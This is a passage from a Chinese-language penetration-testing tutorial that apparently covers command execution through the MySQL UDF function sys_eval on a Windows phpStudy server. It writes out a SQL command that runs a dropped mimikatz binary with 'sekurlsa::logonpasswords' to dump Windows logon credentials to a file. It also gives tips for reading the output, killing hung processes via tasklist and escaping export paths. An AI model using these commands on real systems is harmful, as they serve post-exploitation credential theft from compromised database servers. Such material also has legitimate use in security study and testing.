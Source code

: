 ####  **1.1.2 执行**

这里落地了一个mimikat.exe，然后执行

  * 

    
    
    select sys_eval('C:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\M.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> C:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\res1.txt"')

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220422103712.png)

  

执行完毕后可以使用windows的more、type或者mysql的Load_file函数查看执行结果

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220422103715.png)  

####  **1.1.3 exe退出**

如果运行了一个exe程序，但是没有给他退出的命令或者是他自己不会终止退出。例如我直接运行mimikatz.exe没有给参数传入，那么他会在目标服务器直接弹一个黑窗，一直卡在这，直到程序被终结。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220422103716.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220422103721.png)

  

这种情况可以在桌面手动关闭,也可以通过shell关闭。

  * 

    
    
    select sys_eval('tasklist /svc |findstr "进程名.exe"')

![]()

  

将结果进行16解码即可得到进程id,再Kill掉就好了。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220422103722.png)

  

####  **1.1.4 注意点**

导出的文件，不能是已经存在的文件，否则会报错。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220422103724.png)

  

导出路径中的"\"为两个，否则会转义。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220422103725.png)

  
